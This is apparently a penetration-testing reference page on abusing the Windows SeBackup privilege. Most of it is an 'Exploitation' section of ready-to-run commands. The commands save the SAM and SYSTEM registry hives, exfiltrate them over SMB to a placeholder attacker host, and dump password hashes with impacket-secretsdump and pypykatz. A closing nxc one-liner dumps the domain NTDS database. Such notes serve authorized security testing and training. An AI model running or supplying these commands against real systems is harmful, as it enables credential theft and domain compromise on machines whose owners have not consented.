 # SeBackup

A Windows privilege that allows **bypassing standard ACL checks** to read files and registry hives during backup operations. Assigned by default to `Administrators`, [`Backup Operators`](../groups/backup-operators.md), and [`Server Operators`](../groups/server-operators.md) but **disabled in user tokens by default**. Backup-aware tools (e.g., `reg.exe`, `robocopy`, `ntbackup`) explicitly enable this privilege at runtime to access protected objects regardless of ACLs.

## Exploitation

{% hint style="info" %}
For **AD exploitation** check [Backup Operators](../groups/backup-operators.md#exploitation), [Server Operators](../groups/server-operators.md#exploitation).
{% endhint %}

{% tabs %}
{% tab title="Dump" %}
Move to a [writeable directory](../../host-recon.md#writable-directories) and copy the hives:

```powershell
# Move to a writeable directory
cd c:\windows\temp

# Copy the SAM and SYSTEM hives
reg save hklm\sam c:\windows\temp\sam
reg save hklm\system c:\windows\temp\system
```

Transfer the hives to the attacking host (preferrable via SMB and not WinRM):

```bash
# Start an SMB server
sudo impacket-smbserver share -smb2support / -user test -password test
```

Connect and copy the hives:

```powershell
# Connect to the share
net use z: \\<attacker-IP>\share /user:test test

# Copy the hives
copy sam z:\
copy system z:\
```

Dump the creds on the attacking host:

```bash
# Dump creds with impacket
impacket-secretsdump -sam sam -system system LOCAL

# Dump creds with pypykatz
pypykatz registry --sam sam system
```
{% endtab %}

{% tab title="nxc" %}
If the credentials of the `Backup Operators`'s member are available:

```bash
nxc smb 192.168.210.16 -u administrator -p Password123! --ntds vss
```
{% endtab %}
{% endtabs %}
